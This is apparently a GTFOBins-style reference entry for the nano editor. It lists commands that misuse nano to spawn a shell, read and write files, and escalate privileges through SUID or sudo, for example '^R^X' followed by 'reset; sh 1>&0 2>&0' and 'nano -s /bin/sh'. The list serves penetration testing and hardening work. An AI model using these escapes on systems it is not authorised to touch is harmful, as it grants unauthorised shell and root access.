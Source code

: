 ```yaml
---
functions:
  shell:
    - code: |
        nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        nano -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./nano
        ^R^X
        reset; sh 1>&0 2>&0
  sudo:
    - code: |
        sudo nano
        ^R^X
        reset; sh 1>&0 2>&0
---
```

